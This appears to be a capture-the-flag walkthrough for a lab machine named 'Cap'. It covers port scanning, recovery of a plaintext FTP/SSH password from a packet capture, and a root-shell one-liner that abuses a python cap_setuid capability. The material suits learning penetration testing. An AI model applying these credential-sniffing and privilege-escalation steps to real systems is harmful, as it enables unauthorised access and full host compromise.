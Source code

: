 # Cap

## Nmap

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
```

## Fast and failed

- searchsploit vsftp v3.0.3: nothing
- bruteforcing ftp with default credentials: nothing

## Website

> Logged in as `Nathan`

Most likely the FTP / OS login too.

### Notifications

There's an offset panel with notifications and settings. Tweaking the css
brings it back into view:

```css
.offset-area{
	right: 0;
}
```

There's a notification about a failed login

> You missed you Password!
> 09:20 Am

### Network activity

Let's go through the network logs looking for the login attempts:

```bash
tcpdum -r ~/downloads/0.pcap -XX -A | grep -ia login
```

> nathan
> Buck3tH4TF0RM3!

The credentials work with ssh, golden!

## Escalation

`linpeas` tells us that python has `cap_setuid`!

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
